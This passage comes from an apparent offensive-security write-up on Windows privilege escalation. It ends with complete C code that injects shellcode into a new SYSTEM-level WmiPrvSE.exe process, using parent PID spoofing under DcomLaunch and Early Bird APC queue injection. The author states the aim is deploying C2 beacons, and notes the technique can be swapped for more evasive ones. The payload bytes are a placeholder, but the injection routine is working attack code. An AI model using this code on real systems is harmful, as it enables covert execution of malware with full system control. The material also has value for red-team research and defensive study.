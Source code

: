```c
		printf("\n[-] ERROR GetSystemTokenFromProcess %d", GetLastError());
		CloseHandle(hProc);
		return FALSE;
	}
	CloseHandle(hProc);
	return TRUE;
}
```


## 5- Injection to the new Process

As the payload, I intend to use shellcode since many C2 beacons can be deployed this way. To execute the payload in SYSTEM privileges I decided to inject the shellcode to a process which is run as SYSTEM user. Actually, trying to execute the shellcode in the current process (WmiPrvSE.exe) generally ends up having NETWORK SERVICE token because new threads are created. Therefore I decided to create a new WmiPrvSE.exe to host my shellcode with the parent of **DcomLaunch** service process which is run as SYSTEM. I utilized the well-known parent PID spoofing and a generic injection technique known as ["Early Bird APC Queue Code Injection"](https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection) in order to create the new host process under **DcomLaunch** for injection[[7]]. The injection technique can be changed with more evasive ones according to the target environment.  

```c
DWORD InjectNewProcess(HANDLE hParent) {
	unsigned char shellcode[] = "???";
	STARTUPINFOEX si;
	PROCESS_INFORMATION pi;
	SIZE_T attributeSize;
	ZeroMemory(&si, sizeof(STARTUPINFOEX));
	WCHAR cmdline[MAX_PATH] = L"wmiprvse.exe -Embedding";
	//WCHAR cmdline[MAX_PATH] = L"notepad.exe";
	
	InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
	si.lpAttributeList = 
		(LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc
		(GetProcessHeap(), 0, attributeSize);
	InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
	UpdateProcThreadAttribute(si.lpAttributeList, 0, 
		PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, 
		&hParent, sizeof(HANDLE), NULL, NULL);
	si.StartupInfo.cb = sizeof(STARTUPINFOEX);
	
	CreateProcessW(NULL, cmdline, NULL, NULL, FALSE, 
		EXTENDED_STARTUPINFO_PRESENT|CREATE_SUSPENDED|CREATE_NO_WINDOW, 
		NULL, NULL, &si.StartupInfo, &pi);
	HANDLE victimProcess = pi.hProcess;
	HANDLE threadHandle = pi.hThread;

	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, 
		sizeof(shellcode), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;

	WriteProcessMemory(victimProcess, shellAddress, shellcode, 
		sizeof(shellcode), NULL);
	QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
	ResumeThread(threadHandle);

	return 0;
}
```       


[1]: https://www.zerodayinitiative.com/blog/2020/10/27/cve-2020-16939-windows-group-policy-dacl-overwrite-privilege-escalation
[2]: https://decoder.cloud/2019/11/13/from-arbitrary-file-overwrite-to-system/ 
[3]: https://docs.microsoft.com/en-us/windows/win32/printdocs/openprinter2
[4]: https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
[5]: https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html
[6]: https://github.com/ionescu007/faxhell/blob/master/ualapi/dllmain.c
[7]: https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection;